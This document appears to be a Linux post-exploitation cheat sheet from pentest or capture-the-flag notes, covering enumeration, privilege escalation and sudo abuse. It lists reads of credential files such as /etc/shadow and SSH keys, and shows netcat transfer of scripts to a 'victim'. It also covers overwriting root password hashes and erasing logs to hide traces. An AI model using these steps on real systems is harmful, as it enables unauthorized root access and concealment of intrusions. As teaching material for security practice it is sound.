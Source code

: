 # Exploit Linux

<hr class="sl">

## Linux handy commands

<div class="row row-cols-md-2"><div>

Explore the host

* `bash`: start a bash shell
* `cd`: move to another folder
* `ls`: list files in a folder
* `pwd`: path to the current directory
* `cat`: print (usually small) files
* `less`: read (usually big) files
* `chmod`: change permissions
* `chown`: change owner
* `find`: find a file/folder
* `grep/egrep`: find something in a file
* `su`: change user
* `wget`: download something

> You may use python to do things for you, such as starting a web server to browse files <small>(`python3 -m  http.server`)</small>, or run commands <small>(`python -c 'import pty; pty.spawn("/bin/bash")'`)</small>.
</div><div>

Learn more about your environment

* `w`: who is logged in, and what they are doing
* `who`: who is logged in
* `echo $0`: language used by the current shell
* `whoami`: username
* `last`: list of last logged users
* `id`: username, group...
* `uname -a`: info about the machine
* `hostname`: info about the host
* `ps`: see running processes
* `env`: see environment variables
* `umask`: see the default perms on newly created files
* `getent`: shortcut to get entries about something, such as `passwd`
</div></div>

<hr class="sr">

## Linux environment

<div class="row row-cols-md-2 mt-3"><div>

**Look for (sensitive?) information** 🔑

* `/etc/passwd`: usernames, their groups, their home, and their shell
* `/etc/shadow` <small>(root)</small>: username, and their hashed password
* `/etc/group`/`groups`: groups
* `/etc/gshadow` <small>(root)</small>: groups hashed passwords (if any)
* `/proc/version`: information about the machine
* `cat /etc/*release`: information about the operating system
* `/etc/sudoers` <small>(root)</small>: sudoers, and rules applied to them, if any
* `ls -ahl /root/`: see if there are readable files in root's home
* `find / -name *id_dsa* 2> /dev/null`: RSA credentials

**Logs** 🗺️

* `/var/log/` (folder): log files
* Look for ufw (firewall) logs
* Look for apache logs
* Look for fail2ban logs
* Look for backups <small>(such as emails/conversations/database)</small>
* Look for mails `/var/mail/`
* `~/.bash_history`: there may be something useful in the bash_history
</div><div>

**Cron tasks** ⭐

Cron are the name given to automated tasks on Linux. See `crontab -l` for the tasks of the current user, and `ls -la /etc/cron*` for every cron tasks. Then, you may look for vulnerable cron tasks.

<br>

**Potentially vulnerable services** 😢

* Apache: `apache2 -v` / `apache2ctl -M` / `httpd -v`
* Sudo: `sudo -V`
* PostgresSQL: `psql -V`
* MySQL: `mysql --version`

Once you found a service, look for CVE for the given version, and try to use one to escalate to root.

<br>

**Cleaning up your traces** 🧹

* `/var/log/auth.log`: ssh logs
* `/var/log/syslog`: firewall logs
* `/var/log/service`: "service" logs (ex: apache)
* ...

</div></div>

> **NOTE**: don't forget to redirect any errors with `some_command 2> /dev/null`.

<hr class="sl">

## Linux (automated) enumeration

<div class="row row-cols-md-2"><div>

There are many scripts checking if there are "common" files, testing commands... in order to look for information that would be useful for you to reach a higher level of privilege.

* [LinEnum](https://github.com/rebootuser/LinEnum) (5.4k ⭐): a script shell
* [traitor](https://github.com/liamg/traitor)  (5.4k ⭐): a script in Go
* [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration) (2.5k ⭐): a script shell
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker) (1.1k ⭐): a python script
</div><div>

There are multiple ways to get the script on your target

* Open a text editor, copy-paste it
  * run it `bash script.sh`,
  * or use chmod, then `./script.sh`
* Use `wget`
* Use `FTP`
* Use nc/netcat
  * On the victim: `nc -l -p port > script.sh`
  * On the attacker: `nc IP port < script.sh`
</div></div>

<hr class="sr">

## Linux privilege escalation

<div class="row row-cols-md-2"><div>

Privilege escalation refer to a process of obtaining super-administrator (a.k.a. root) privileges, starting from a non-root user.

* [gtfobins](https://gtfobins.github.io/) (7.4k ⭐): a reference to find ways to exploit a command with misconfigured permissions.
</div><div>

* Find a vulnerable service an exploit it <small>(apache, mysql...)</small>
* Find a service in which you can inject data, in order to exploit it
  * Exploit `sudo`
  * Exploit system files
  * Exploit cron jobs
  * Exploit script with the SUID bit
  * ...
* ...
</div></div>

<hr class="sl">

## Misconfigured permissions

<div class="row row-cols-md-2"><div>

If `/etc/shadow` was "intentionally" misconfigured

```bash
$ cat /etc/shadow
# if you can read it: try to bruteforce the password
# if you can write it: change the root password
# (copy a password / generate one mkpasswd -m sha-512 toto)
```

In OLD version of Linux, passwords could be stored in `/etc/passwd`

```bash
$ cat /etc/shadow
- root:x:...
+ root:hashed_password:...
# openssl passwd toto
```
</div><div>

...
</div></div>

<hr class="sr">

## Exploit sudo

*A good reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER)* (1.6k ⭐).

<div class="row row-cols-md-2"><div>

Try to find commands that can be run with sudo

```bash
$ sudo -l
# if asking a password, abort
# otherwise, 
# - look for the command on GTFOBins
# - look for environment variable loaded that may be exploited
```
</div><div>

...
</div></div>